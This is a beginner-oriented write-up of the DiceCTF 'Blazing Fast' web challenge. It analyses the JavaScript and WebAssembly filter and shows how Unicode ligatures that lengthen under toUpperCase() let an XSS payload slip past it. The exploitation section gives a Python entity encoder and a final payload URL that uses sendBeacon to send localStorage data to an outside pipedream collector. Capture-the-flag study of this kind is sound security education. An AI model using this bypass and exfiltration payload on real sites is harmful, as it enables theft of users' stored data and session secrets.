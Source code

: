 # Blazing Fast
**category** : web\
**tags** : xss,js,web assembly,toUpperCase\
**url** : [https://blazingfast.mc.ax/](https://blazingfast.mc.ax/)\
**source** : [here](https://github.com/Ryn0K/CTFs/tree/master/dicectf/web/blazingfast)\
**author** : larry

# intro

![intro](https://i.imgur.com/yIuwY13.png)

`Note: i tried everything to writeup this begineer friendly, if you have any questions you can ask in comments.`

# Recon

so, whatever we write,on the basis of odd index converted to uppercase.

![1](https://i.imgur.com/OsgtTiR.png)

we cannot simply `xss`,due to waf

![2](https://i.imgur.com/PUcOWXL.png)

# Analysing source code

```js
let blazingfast = null;

function mock(str) {
	blazingfast.init(str.length);

	if (str.length >= 1000) return 'Too long!';

	for (let c of str.toUpperCase()) {
		if (c.charCodeAt(0) > 128) return 'Nice try.';
		blazingfast.write(c.charCodeAt(0));
	}

	if (blazingfast.mock() == 1) {
		return 'No XSS for you!';
	} else {
		let mocking = '', buf = blazingfast.read();

		while(buf != 0) {
			mocking += String.fromCharCode(buf);
			buf = blazingfast.read();
		}

		return mocking;
	}
}

function demo(str) {
	document.getElementById('result').innerHTML = mock(str);
}

WebAssembly.instantiateStreaming(fetch('/blazingfast.wasm')).then(({ instance }) => {	
	blazingfast = instance.exports;

	document.getElementById('demo-submit').onclick = () => {
		demo(document.getElementById('demo').value);
	}

	let query = new URLSearchParams(window.location.search).get('demo');

	if (query) {
		document.getElementById('demo').value = query;
		demo(query);
	}
})
```

1. wasm is loaded and its functions is used. 
2. anytext under `demo` or query parameter `demo` got pass to function `mock` for filtering and passing data to `wasm`.
3. we are using query parameter `demo` to pass payload.
4. first length got intialize for string provided and string length should not greater than `1000`.
5. character provided in string should not be greater than `128` , and every character pass to `write` of wasm by uppercase using `toUpperCase()` of js

```c
int length, ptr = 0;
char buf[1000];

void init(int size) {
	length = size;
	ptr = 0;
}

char read() {
	return buf[ptr++];
}

void write(char c) {
	buf[ptr++] = c;
}

int mock() {
	for (int i = 0; i < length; i ++) {
		if (i % 2 == 1 && buf[i] >= 65 && buf[i] <= 90) {
			buf[i] += 32;
		}

		if (buf[i] == '<' || buf[i] == '>' || buf[i] == '&' || buf[i] == '"') {
			return 1;
		}
	}

	ptr = 0;

	return 0;
}
```

6. in `wasm` side,`mock()` is used for filtering, odd character converted to uppercase by adding `32` and character should not be `<`,`>`,`&`,`"`.

# Vulnerability ?

from challenge features, we need to find xss but how ? these are the analysis i did during ctf.

1. by looking at challenge code logic ,`length` is intialized before `toUpperCase()`, so somehow we can truncate `length`(to manipulate `loop`) maybe ,we can inject desired characters.

2. To experiment and for poc i wrote this
```html
<!DOCTYPE html>
<script>
for(let i=0 ;i <1000000;++i){
  let c = String.fromCodePoint(i);
  let l_c  = c.length;
  let u = c.toUpperCase();
  let l_u = u.length;
  if(l_u > l_c){
    console.log(`${c}(${l_c}) -> ${u}(${l_u})`);
  }
}
</script>

```
![3](https://i.imgur.com/nMVlZDT.png)
3. you can see `toUpperCase()`, weird behaviour with different characters like (ﬃ,ﬄ,ß,etc...) and with different `lengths` after converting to `uppercase`.

4. So we can use ,this to truncate `length` of payload and inject `xss` payload.

# Exploitation

1. for alerting and confirming my payload work i tried this,

```https://blazingfast.mc.ax/?demo=ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ"><img src=1 onerror=alert(1)>```,i got error cause `alert()` converted to `ALERT()`

2. we need to do this,[https://phackt.com/xss-real-life-case-credentials-stealing](https://phackt.com/xss-real-life-case-credentials-stealing)

3. to make encoded js , i use this

```py
#!/usr/bin/env python3
from urllib.parse import urlencode
payload = ""
url = "https://enuz6evb9ok23xn.m.pipedream.net"
p = 'localStorage.getItem("flag")'
#pay = f'navigator.sendBeacon("{url}",{p})'
pay="alert('1')"
print(pay)
for c in pay:
  if c.islower() or c==' ':
    payload+="&#X"+hex(ord(c))[2:]+";"
  else:
    payload+=c
print(payload)
```

4. final payload 

```https://blazingfast.mc.ax/?demo=ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ"><img src=1 onerror=&#X6e;&#X61;&#X76;&#X69;&#X67;&#X61;&#X74;&#X6f;&#X72;.&#X73;&#X65;&#X6e;&#X64;B&#X65;&#X61;&#X63;&#X6f;&#X6e;("&#X68;&#X74;&#X74;&#X70;&#X73;://&#X65;&#X6e;&#X75;&#X7a;6&#X65;&#X76;&#X62;9&#X6f;&#X6b;23&#X78;&#X6e;.&#X6d;.&#X70;&#X69;&#X70;&#X65;&#X64;&#X72;&#X65;&#X61;&#X6d;.&#X6e;&#X65;&#X74;",&#X6c;&#X6f;&#X63;&#X61;&#X6c;S&#X74;&#X6f;&#X72;&#X61;&#X67;&#X65;.&#X67;&#X65;&#X74;I&#X74;&#X65;&#X6d;("&#X66;&#X6c;&#X61;&#X67;"))>```

# `dice{1_dont_know_how_to_write_wasm_pwn_s0rry}`

# final word....

this challenge was very nice, thanks to `larry`.